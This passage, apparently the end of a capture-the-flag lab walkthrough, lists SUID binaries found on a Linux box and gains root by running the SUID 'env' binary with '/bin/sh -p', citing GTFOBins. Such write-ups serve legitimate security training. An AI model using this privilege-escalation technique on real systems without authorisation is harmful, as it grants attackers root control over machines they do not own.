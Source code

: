 /bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo</pre>

GTFOBins is an excellent website which has compiled a list of exploitable SUID binaries, use this as a reference:

[GTFOBins](https://gtfobins.github.io/)

One of the binaries on our system is "/usr/bin/env". GTFOBins has a page on this binary:

[GTFOBins /env](https://gtfobins.github.io/gtfobins/env/)

Let's take advantage of this we can run the following from our current user shell:

<pre>/usr/bin/env /bin/sh -p</pre>

![root](https://imgur.com/QE4DsJM.png)

We are root, the flag is in /root/root.txt

![root flag](https://imgur.com/p8r2NbZ.png)

This was a relatively easy box, I wouldn't personally rate it medium. It is good for beginners who want to improve their enumeration and privilege escalation skills. 





